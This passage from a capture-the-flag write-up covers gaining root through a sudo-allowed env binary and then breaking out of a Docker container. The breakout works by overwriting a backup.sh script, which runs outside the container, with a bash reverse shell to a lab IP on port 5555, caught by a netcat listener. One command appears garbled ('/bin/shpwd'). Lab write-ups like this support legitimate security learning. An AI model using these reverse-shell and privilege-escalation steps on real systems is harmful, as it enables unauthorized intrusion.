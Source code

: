 Checking for sudo rights using `sudo -l` shows us we can run /usr/bin/env as sudo without a password. Looking this up at [GTFO Bins](https://gtfobins.github.io/gtfobins/env/#sudo) we can use the command on this site to get a root shell\*\*.\*\*

```bash
sudo env /bin/shpwd
```

Running the find command from section 3.1 or going straight to /root directory we can find flag 3

![](<../.gitbook/assets/priv esc and flag 3.PNG>)

### 4.2 Break out of the Docker Container

After much trial and searching through directories I came across a file in /opt/backups called backup.sh which appears to be a file that is called from outside the docker and is worth trying to leverage as a way to break out of the container.

Ensuring we have another listener set up on our machine

```bash
nc -nvlp 5555
```

We can insert our shell into backup.sh and wait for it to be called

```bash
echo "#!/bin/bash" > backup.sh
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.14.23.1/5555 0>&1'" >> backup.sh
```

In my case in less than a minute my new shell was created and flag4 was waiting for collection in the current directory.

<figure><img src="../.gitbook/assets/Container breakout (1).png" alt=""><figcaption></figcaption></figure>
